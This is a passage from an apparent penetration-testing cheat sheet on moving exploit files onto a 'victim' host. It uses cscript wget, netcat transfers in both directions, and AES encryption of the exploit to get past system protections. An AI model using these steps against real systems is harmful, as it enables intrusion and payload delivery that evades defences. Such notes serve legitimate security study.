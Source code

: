 ```console
C:\victim> cscript.exe /nologo wget.vbs <target url file> <output file>
```

---

# Other 

## Netcat 

Creating the file in the target:
```console
victim@machine$ nc -l -p <port> > exploit.exe
```

Uploading:
```console
zero@pio$ wget -q <target url file>
zero@pio$ nc -q 0 <target ip> <port> < exploit.exe
```

Also we can do the opposite:
```console
zero@pio$ sudo nc -l -p <port> -q 0 < exploit.exe
victim@machine$ nc <your ip> <port> > exploit.exe
```

---

# Protected Files 

Sometimes the system could be protected agaisnt this scripts. We can encrypted and decrypted it to work.

## Windows

For example, [this](https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions%5CInvoke-AESEncryption.ps1) script will encrypt our exploit. The usage is:
```console
PS C:\victim> Import-Module .\Invoke-AESEncryption.ps1
PS C:\victim> Invoke-AESEncryption.ps1 -Mode Encrypt -Key "p4ssw0rd" -Path .\<file>
```

## Linux 

- openssl 

```console
zero@pio$ openssl enc -d -aes256 -iter 100000 -pbkdf2 -in <file> -out <output file>
```
